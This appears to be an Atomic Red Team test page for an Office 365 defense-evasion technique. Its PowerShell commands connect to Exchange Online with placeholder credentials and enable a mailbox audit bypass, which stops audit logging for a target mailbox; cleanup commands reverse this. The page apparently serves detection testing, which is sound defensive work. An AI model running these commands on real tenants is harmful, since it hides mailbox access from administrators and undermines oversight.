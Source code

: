 


<br/>
<br/>

## Atomic Test #9 - Office 365 - Set Audit Bypass For a Mailbox
Use Exchange Management Shell to Mailbox auditing to bypass. It will prevent any mailbox audit logging entries being generated for the target e-mail box.
https://learn.microsoft.com/en-us/powershell/module/exchange/set-mailboxauditbypassassociation?view=exchange-ps

**Supported Platforms:** Office-365


**auto_generated_guid:** c9a2f6fe-7197-488c-af6d-10c782121ca6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| username | office-365 username | string | o365_user_test|
| password | office-365 password | string | o365_password_test|
| target_email | office-365 target_email | string | o365_email_test|


#### Attack Commands: Run with `powershell`! 


```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Set-MailboxAuditBypassAssociation -Identity "#{target_email}" -AuditBypassEnabled $true
```

#### Cleanup Commands:
```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
Set-MailboxAuditBypassAssociation -Identity "#{target_email}" -AuditBypassEnabled $false
Disconnect-ExchangeOnline -Confirm:$false
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement         
Import-Module ExchangeOnlineManagement
```
